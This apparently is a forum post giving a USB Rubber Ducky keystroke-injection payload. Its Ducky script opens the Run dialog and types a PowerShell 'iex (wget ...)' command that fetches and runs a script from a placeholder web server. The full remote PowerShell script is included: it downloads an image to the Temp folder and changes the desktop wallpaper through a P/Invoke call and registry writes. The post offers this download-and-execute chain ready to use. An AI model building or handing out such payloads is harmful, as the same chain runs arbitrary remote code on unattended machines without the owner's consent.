 Write this code to your Rubber Ducky payload file using the encoder, the wget is an alias that exist in powershell already: 
---------------------------------------------------------------------
GUI r
DELAY 50
STRING powershell iex (wget http://your-website.com/powershellscript.ps)
ENTER

The Powershell script on your webserver (http://your-website.com/powershellscript.ps):
---------------------------------------------------------------------
(new-object System.Net.WebClient).DownloadFile('http://your-website.com/mylittlepony.jpg',"$Env:Temp\b.jpg");
Add-Type @"
using System;
using System.Runtime.InteropServices;
using Microsoft.Win32;
namespace Wallpaper
{
 public enum Style : int
{
    Tile, Center, Stretch, NoChange
 }
 public class Setter {
  public const int SetDesktopWallpaper = 20;
  public const int UpdateIniFile = 0x01;
  public const int SendWinIniChange = 0x02;
  [DllImport("user32.dll", SetLastError = true, CharSet = CharSet.Auto)]
  private static extern int SystemParametersInfo (int uAction, int uParam, string lpvParam, int fuWinIni);
  public static void SetWallpaper ( string path, Wallpaper.Style style ) {
     SystemParametersInfo( SetDesktopWallpaper, 0, path, UpdateIniFile | SendWinIniChange );
     RegistryKey key = Registry.CurrentUser.OpenSubKey("Control Panel\\Desktop", true);
     switch( style )
     {
        case Style.Stretch :
           key.SetValue(@"WallpaperStyle", "2") ;
           key.SetValue(@"TileWallpaper", "0") ;
           break;
        case Style.Center :
           key.SetValue(@"WallpaperStyle", "1") ;
           key.SetValue(@"TileWallpaper", "0") ;
           break;
        case Style.Tile :
           key.SetValue(@"WallpaperStyle", "1") ;
           key.SetValue(@"TileWallpaper", "1") ;
           break;
        case Style.NoChange :
           break;
     }
     key.Close();
      }
    }
}
"@
[Wallpaper.Setter]::SetWallpaper("$Env:Temp\b.jpg" , 2 )


--DONT INCLUDE THIS LINE ---------------------------------------------

That should do it :) 
Regards Keld Norman@DK

